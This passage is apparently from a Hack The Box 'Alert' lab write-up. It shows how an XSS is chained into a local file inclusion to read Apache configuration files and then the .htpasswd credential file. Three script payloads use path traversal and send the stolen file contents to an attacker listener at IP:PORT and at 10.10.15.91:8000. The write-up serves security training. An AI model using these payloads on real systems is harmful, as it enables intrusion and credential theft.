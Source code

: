 ![XSS to LFI](/images/HTB-Alert/XSS_LFI.png)

We remember that `Basic Authentication` is used at `http://statistics.alert.htb/`. Now that we have a working LFI we can try to read the `.htpasswd` file.

> The `.htpasswd` file in Apache stores usernames and encrypted passwords for basic HTTP authentication.

To find its location we will read the configuration file of Apache. The most common paths are `/etc/apache2/apache2.conf` and `/etc/apache2/sites-available/000-default.conf`.

> `apache2.conf` is the main configuration file while `000-default.conf` is the file defining virtual host configuration.

```javascript
<script>
fetch("http://alert.htb/messages.php?file=../../../../../etc/apache2/apache2.conf")
    .then(response => response.text())
    .then(data => {
    fetch("http://IP:PORT/?data=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching messages:", error));
</script>
```

We read the content of `apache2.conf` but it does not mention `.htpasswd` in a relevant manner.

![Apache2.conf file](/images/HTB-Alert/apache2.png)

On the other hand `000-default.conf` reveals the location of `.htpasswd` which is `/var/www/statistics.alert.htb/.htpasswd`.

```javascript
<script>
fetch("http://alert.htb/messages.php?file=../../../../../etc/apache2/sites-available/000-default.conf")
    .then(response => response.text())
    .then(data => {
    fetch("http://IP:PORT/?data=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching messages:", error));
</script>
```

![000-default.conf file](/images/HTB-Alert/000-default.png)

So now we read the file.

```javascript
<script>
fetch("http://alert.htb/messages.php?file=../../../../../var/www/statistics.alert.htb/.htpasswd")
    .then(response => response.text())
    .then(data => {
    fetch("http://10.10.15.91:8000/?data=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching messages:", error));
</script>
```
